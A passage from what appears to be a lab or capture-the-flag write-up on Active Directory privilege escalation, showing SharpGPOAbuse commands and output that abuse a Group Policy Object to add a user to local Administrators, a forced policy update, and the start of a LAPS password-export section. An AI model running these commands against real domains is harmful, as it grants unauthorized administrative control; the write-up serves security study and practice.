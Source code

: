 ## <span style="color:lightgreen">Exploitation</span>
We Abusing GPO by adding the user to the local Administrators group leveraging a tool called SharpGPOAbuse.

Source : [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

Pre compiled binaries : [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

+ Add user to local administrator groups

```powershell
PS C:\Enterprise-Share> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
[+] Domain = vulnnet.local
[+] Domain Controller = VULNNET-BC3TCK1SHNQ.vulnnet.local
[+] Distinguished Name = CN=Policies,CN=System,DC=vulnnet,DC=local
[+] GUID of "SECURITY-POL-VN" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] Creating file \\vulnnet.local\SysVol\vulnnet.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

+ Force Update the system

```powershell
PS C:\Enterprise-Share> gpupdate /force
Updating policy...
Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

+ Now review our group memberships after we forced the policies to be updated on the target machine.

```powershell
PS C:\Enterprise-Share> net user enterprise-security
# Will be added to the administrators group
```

# <span style="color:lightblue">Export LAPS Passwords</span>

## <span style="color:lightgreen">Methodology</span>
The following script assumes that LAPS has already been configured into your environment & that your user account already has access to view LAPS passwords using the Fat Client UI or from Active Directory Users & Computers.
